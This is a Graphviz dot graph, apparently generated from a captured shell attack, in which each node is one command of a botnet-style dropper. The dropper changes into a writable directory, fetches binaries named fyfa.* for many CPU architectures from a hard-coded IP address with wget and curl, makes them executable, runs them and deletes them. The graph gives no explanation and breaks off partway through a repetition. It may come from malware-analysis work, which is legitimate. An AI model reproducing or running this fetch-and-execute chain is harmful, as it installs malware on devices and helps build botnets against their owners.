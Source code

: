 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://46.166.185.207/fyfa.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://46.166.185.207/fyfa.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x fyfa.mips "];
14 -> 16 [label=";,"];
16 [label="./fyfa.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf fyfa.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://46.166.185.207/fyfa.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://46.166.185.207/fyfa.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x fyfa.mpsl "];
34 -> 36 [label=";,"];
36 [label="./fyfa.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf fyfa.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://46.166.185.207/fyfa.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://46.166.185.207/fyfa.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x fyfa.sh4 "];
54 -> 56 [label=";,"];
56 [label="./fyfa.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf fyfa.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://46.166.185.207/fyfa.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://46.166.185.207/fyfa.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x fyfa.x86 "];
74 -> 76 [label=";,"];
76 [label="./fyfa.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf fyfa.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://46.166.185.207/fyfa.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://46.166.185.207/fyfa.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x fyfa.arm "];
94 -> 96 [label=";,"];
96 [label="./fyfa.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf fyfa.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://46.166.185.207/fyfa.i686 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://46.166.185.207/fyfa.i686 "];
112 -> 114 [label=";,"];
114 [label="chmod +x fyfa.i686 "];
114 -> 116 [label=";,"];
116 [label="./fyfa.i686 "];
116 -> 118 [label=";,"];
118 [label="rm -rf fyfa.i686 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.166.185.207/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.166.185.207/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf fyfa.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://46.166.185.207/fyfa.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://46.166.185.207/fyfa.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x fyfa.i586 "];
154 -> 156 [label=";,"];
156 [label="./fyfa.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf fyfa.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://46.166.185.207/fyfa.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://46.166.185.207/fyfa.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x fyfa.m68k "];
174 -> 176 [label=";,"];
176 [label="./fyfa.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf fyfa.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://46.166.185.207/fyfa.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://46.166.185.207/fyfa.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x fyfa.spc "];
194 -> 196 [label=";,"];
196 [label="./fyfa.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf fyfa.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.166.185.207/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.166.185.207/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
}
